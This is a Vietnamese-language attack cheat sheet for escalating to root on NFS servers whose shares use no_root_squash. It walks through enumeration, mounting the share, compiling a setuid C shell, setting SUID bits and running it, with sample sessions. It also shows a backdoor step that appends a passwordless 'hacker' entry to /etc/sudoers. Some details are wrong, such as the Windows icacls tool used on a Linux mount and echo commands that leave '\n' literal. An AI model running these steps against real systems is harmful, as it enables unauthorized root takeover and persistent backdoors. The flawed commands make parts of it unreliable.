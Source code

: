 # NFS Exploits

## Điểm chính khai thác

* Khai thác cấu hình **no\_root\_squash** trong NFS để leo thang đặc quyền lên **root** bằng cách tạo tệp nhị phân SUID trong share có thể ghi, cho phép thực thi lệnh với đặc quyền root trên server
* Share NFS với quyền ghi và **no\_root\_squash** cho phép người dùng root trên máy tấn công tạo hoặc sửa đổi tệp giữ đặc quyền khi chạy trên server
* Kiểm tra các share NFS bằng `showmount` và `/etc/exports` để xác định cấu hình dễ bị khai thác, đặc biệt các share với `*` hoặc IP cụ thể và **no\_root\_squash**
* Yêu cầu quyền truy cập mạng tới NFS server (thường qua cổng 2049) và công cụ NFS client để gắn kết share cục bộ
* Kết hợp với kiểm tra tệp SUID hoặc tập lệnh thực thi trên server (dùng `find` hoặc **pspy**) để xác định các mục tiêu có thể thao túng

## Các bước khai thác

### Kiểm tra lỗ hổng

#### Xác định mục tiêu tiềm năng

Kiểm tra cấu hình NFS export trên hệ thống cục bộ để tìm share với **no\_root\_squash**:

```
cat /etc/exports
```

Output mong đợi: Danh sách export, ví dụ: `/backup *(rw,no_root_squash)`

Liệt kê NFS share từ xa để xác định các share có thể truy cập và cấu hình:

```
showmount -e <ip>
```

Output mong đợi: Danh sách share, ví dụ: `/backup *`

#### Kiểm tra quyền truy cập hoặc cấu hình

Kiểm tra quyền ghi trên thư mục cục bộ để gắn kết NFS share:

```
icacls /mnt/nfs
```

Output mong đợi: Quyền thư mục, ví dụ: `BUILTIN\Users:(M)`

#### Phân tích ngữ cảnh thực thi

Tìm tệp nhị phân SUID trên NFS server để xác định mục tiêu có thể thao túng:

```
find / -perm -4000 -type f 2>/dev/null
```

Output mong đợi: Danh sách tệp SUID, ví dụ: `/backup/shell`

### Thực thi khai thác

#### Chuẩn bị payload hoặc mã khai thác

Gắn kết NFS share vào thư mục cục bộ với quyền đọc-ghi:

```
mount -o rw <ip>:<share_path> /mnt/nfs
```

Ghi chú: Thay `<ip>` và `<share_path>` bằng IP server và đường dẫn share (ví dụ: `/backup`). Đảm bảo NFS client được cài đặt.

Tạo mã nguồn C cho tệp nhị phân SUID trên máy tấn công:

```
echo '#include <unistd.h>\nint main() { setuid(0); setgid(0); execve("/bin/sh", NULL, NULL); return 0; }' > /mnt/nfs/shell.c
```

Ghi chú: Đảm bảo máy tấn công có quyền root để tạo tệp nhị phân với đặc quyền phù hợp.

Biên dịch mã nguồn thành tệp nhị phân:

```
gcc /mnt/nfs/shell.c -o /mnt/nfs/shell
```

Ghi chú: Đảm bảo `gcc` được cài đặt trên máy tấn công. Tệp nhị phân được lưu trong share NFS.

Thiết lập quyền SUID và thực thi cho tệp nhị phân:

```
chmod 4755 /mnt/nfs/shell
```

Ghi chú: Quyền SUID (`4755`) đảm bảo tệp chạy với đặc quyền root trên server.

Cấp quyền thực thi cho tệp nhị phân:

```
chmod +x /mnt/nfs/shell
```

Ghi chú: Đảm bảo tệp có thể chạy trên server.

#### Áp dụng khai thác

Truy cập NFS server và thực thi tệp nhị phân SUID:

```
/backup/shell
```

Ghi chú: Thay `/backup/shell` bằng đường dẫn thực tế của tệp nhị phân trong share. Đảm bảo share được gắn kết trên server.

#### Kích hoạt khai thác

Kiểm tra quyền root sau khi thực thi:

```
id
```

Output mong đợi: Quyền root, ví dụ: `uid=0(root) gid=0(root)`

### Kiểm tra kết quả

Xác nhận quyền root trên NFS server:

```
whoami
```

Output mong đợi: `root`\
Xác nhận: Thử lệnh yêu cầu quyền cao, ví dụ: `echo 'hacker ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers`.

## Ví dụ khai thác

### Khai thác NFS Share với No\_Root\_Squash

**Kịch bản mẫu**: NFS server tại `192.168.1.101` có share `/backup` với cấu hình `*(rw,no_root_squash)`, máy tấn công có quyền root cục bộ và truy cập mạng tới server. Tạo tệp nhị phân SUID để giành shell root.\
**Output**:

```
showmount -e 192.168.1.101
/backup *

cat /etc/exports
/backup *(rw,no_root_squash)

mount -o rw 192.168.1.101:/backup /mnt/nfs

echo '#include <unistd.h>\nint main() { setuid(0); setgid(0); execve("/bin/sh", NULL, NULL); return 0; }' > /mnt/nfs/shell.c
gcc /mnt/nfs/shell.c -o /mnt/nfs/shell
chmod 4755 /mnt/nfs/shell
chmod +x /mnt/nfs/shell

/backup/shell
id
uid=0(root) gid=0(root)
whoami
root
```

### Khai thác với Pspy và Tệp SUID

**Kịch bản mẫu**: NFS server tại `192.168.1.101` có share `/backup` với `no_root_squash`, máy tấn công dùng **pspy** để phát hiện tập lệnh thực thi định kỳ, sau đó thay thế bằng tệp nhị phân SUID.\
**Output**:

```
showmount -e 192.168.1.101
/backup *

cat /etc/exports
/backup *(rw,no_root_squash)

mount -o rw 192.168.1.101:/backup /mnt/nfs

pspy64
2025/05/16 14:00:01 CMD: UID=0 PID=1234 | /backup/script.sh

echo '#include <unistd.h>\nint main() { setuid(0); setgid(0); execve("/bin/sh", NULL, NULL); return 0; }' > /mnt/nfs/shell.c
gcc /mnt/nfs/shell.c -o /mnt/nfs/script.sh
chmod 4755 /mnt/nfs/script.sh
chmod +x /mnt/nfs/script.sh

id
uid=0(root) gid=0(root)
whoami
root
```
